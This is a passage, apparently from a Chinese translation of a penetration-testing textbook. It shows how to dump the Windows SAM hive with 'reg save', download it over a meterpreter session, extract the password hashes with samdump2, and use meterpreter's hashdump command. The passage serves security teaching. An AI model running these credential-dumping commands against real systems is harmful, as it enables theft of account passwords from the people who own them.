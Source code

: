 reg save hklm\sam c:\sam

如果操作成功，您应该会收到类似以下截图中突出显示的信息：

![图 7.15 – 提取 SAM](img/B17389_07_015.jpg)

](Images/B17389_07_015.jpg)

图 7.15 – 提取 SAM

我们现在可以将 SAM 文件从文件系统根目录下载到我们的 Kali 虚拟机。这可以通过 meterpreter 自动完成，运行以下命令：

download sam

如下截图所示，SAM 文件应该已下载到我们 Kali 主目录中：

![图 7.16 – 下载 SAM 文件](img/B17389_07_018.jpg)

](Images/B17389_07_016.jpg)

图 7.16 – 下载 SAM 文件

我们现在可以在 Kali Linux 上使用 SamDump2 工具从文件中提取哈希值。可以通过在 Kali 上运行以下命令来完成此操作：

samdump2 system sam

这将从 SAM 文件中提取哈希值，我们现在可以破解这些哈希以获取明文密码。

此过程也可以通过使用 **hashdump** meterpreter 命令来自动化，命令如下：

hashdump

如果成功，输出应该会显示系统上所有用户帐户的哈希值，如以下截图所示：

![图 7.17 – Hashdump](img/B17389_07_017.jpg)
